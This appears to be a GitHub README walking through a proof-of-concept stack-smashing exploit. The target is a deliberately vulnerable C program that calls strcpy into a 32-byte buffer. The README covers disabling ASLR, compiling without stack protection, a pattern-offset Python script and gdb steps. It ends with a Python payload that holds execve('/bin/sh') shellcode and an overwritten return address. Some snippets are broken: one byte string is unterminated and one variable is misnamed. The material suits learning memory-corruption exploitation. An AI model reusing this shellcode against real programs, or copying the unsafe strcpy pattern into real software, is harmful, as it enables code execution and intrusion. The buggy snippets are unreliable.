



# POC Stack Smashing

Here is the program that we are going to stack smash.


```c

  void vuln(char *s) {
    int v_ebp;
    char smallbuf[32];

    asm("movl %%ebp, %0\n"
        :"=r"(v_ebp));
    printf("Value in ebp %x\n", v_ebp);

    strcpy(smallbuf, s);
    printf("%s\n", smallbuf);
  }

  int main(int argc, char *argv[]){
 
    vuln(argv[1]);
    return 0; 
  }


```

Deactivate randomizing addr.
```bash
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

Compiling to remove stack protection.
```bash
gcc -O0 -fno-stack-protector -no-pie -fno-PIE -z execstack $* -lm 
```

## Exploit

```bash
gdb printme
```

### Find EIP offset 

```python
# taken at https://github.com/ickerwx/pattern/blob/master/pattern
# adapted to python3 / jeb 07.09.2002

#!/usr/bin/env python
import sys
import struct
import string

def print_help():
    print('Usage: %s (create | offset) <buf len> <hex value>' % sys.argv[0])

def pattern_create(length = 8192):
    pattern = ''
    parts = ['A', 'a', '0']
    try:
        if not isinstance(length, int) and length.startswith('0x'):
#        if not isinstance(length, (int, long)) and length.startswith('0x'):
            length = int(length, 16)
        elif not isinstance(length, int):
#        elif not isinstance(length, (int, long)):
            length = int(length, 10)
    except ValueError:
        print_help()
        sys.exit(254)
    while len(pattern) != length:
        pattern += parts[len(pattern) % 3]
        if len(pattern) % 3 == 0:
            parts[2] = chr(ord(parts[2]) + 1)
            if parts[2] > '9':
                parts[2] = '0'
                parts[1] = chr(ord(parts[1]) + 1)
                if parts[1] > 'z':
                    parts[1] = 'a'
                    parts[0] = chr(ord(parts[0]) + 1)
                    if parts[0] > 'Z':
                        parts[0] = 'A'
    return pattern

def pattern_offset(value, length = 8192):
    try:
#        if not isinstance(value, (int, long)) and value.startswith('0x'):
        if not isinstance(value, int) and value.startswith('0x'):
            value = struct.pack('<I', int(value, 16)).strip('\x00')
    except ValueError:
        print_help()
        sys.exit(254)
    pattern = pattern_create(length)
    try:
        return pattern.index(value)
    except ValueError:
        return 'Not found'

def main():
    if len(sys.argv) < 3 or sys.argv[1].lower() not in ['create', 'offset']:
        print_help()
        sys.exit(255)

    command = sys.argv[1].lower()
    num_value = sys.argv[2]

    if command == 'create':
        print(pattern_create(num_value))
    elif len(sys.argv) == 4:
        str_pattern = str(sys.argv[3])
        if all(c in string.hexdigits for c in str_pattern):
            pattern = bytes.fromhex(str_pattern).decode('utf-8') [::-1]
            print(pattern, end='') 
            print(" --> ", end='')
            print(pattern_offset(pattern, num_value))
        else:
            print_help()
            sys.exit(255)

if __name__ == '__main__':
    main()

```

Create our own pattern
```bash
python3 py/patterns create 300
```

output
`Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5A...`

Buffer injection :

```python
# https://reverseengineering.stackexchange.com/questions/13928/managing-inputs-for-payload-injection
import sys
shellcode = b""
eip_set_addr = b"
pattern  = b"Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A"
sys.stdout.buffer.write(pattern)

```

In gdb : 


```bash
r `python3 py/inBuffer.py`
```

The program crashes with the invalid address which corresponds to our pattern : 



```bash
python3 patterns.py offset 100 41366241
```




```bash
gdb printme
pwndbg> b vuln 
pwndbg> disassemble
```

Our buffer's offset : 
```assembly
   0x080491aa <+36>:	lea    eax,[ebp-0x2c]
```

We can run the program since it displays our ebp addr.

Now this part we will calculate our entry point address for our shell code.

`ffffcd98−0x2c` = `FFFFCD6C`

Now we can pass our shellcode with our eip address and stack smash. This allows us on the function call back to return to an other address which we defined ourselves, which points to our defined shellcode. Since our system is in little endian, we are writing our bytes like so.
```python
# https://reverseengineering.stackexchange.com/questions/13928/managing-inputs-for-payload-injection
import sys
shellcode = b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"
eip_set_addr = b"\x6c\xcd\xff\xff"
sys.stdout.buffer.write(shellcode + 30*eip_addr) # inserting our shell code and overwriting the stack saved EIP.
```
Running shellcode from buffer stack smashing.
